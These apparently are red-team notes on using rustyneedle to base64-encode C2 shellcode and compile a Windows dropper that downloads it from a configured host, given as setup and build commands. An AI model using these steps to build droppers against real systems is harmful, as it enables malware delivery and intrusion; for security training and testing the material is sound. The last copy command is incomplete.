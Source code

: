 rustyneedle is a python script used to modify raw shellcode, and provide an executable.

https://codeberg.org/mttaggart/rustyneedle

```
# Clone the repo
git clone https://codeberg.org/mttaggart/rustyneedle.git

# Install rust
sudo apt install rustup -y
rustup default stable

# Set the compilation target, and add it in this case 64 bit Windows
rustup target add x86_64-pc-windows-gnu
```
There's a few things we have to do. We have to install rust, modify the  src/main.rs file to our options

Specifically, modify the number of base64 iterations, and where the shellcode is downloaded from.

Take note of lines 10 and 12
![[Pasted image 20250529002207.png]]

Now, we need to make our encoded shellcode.
```bash
# Create raw shellcode, like with C2 Mythic. It will be an output option, .bin extension
cd rustyneedle
cp ~/c2/shellcode.bin .

# Encode the shellcode. note that the output file name is note.txt
python3 rustyneedle/encode.py shellcode.bin 3 note.txt

# Compile the main.rs dropper
cargo build --target x86_64-pc-windows-gnu --release

# Navigate the binary
cp target/x86_64-pc-windows-gnu/release/rustyneedle.exe

```

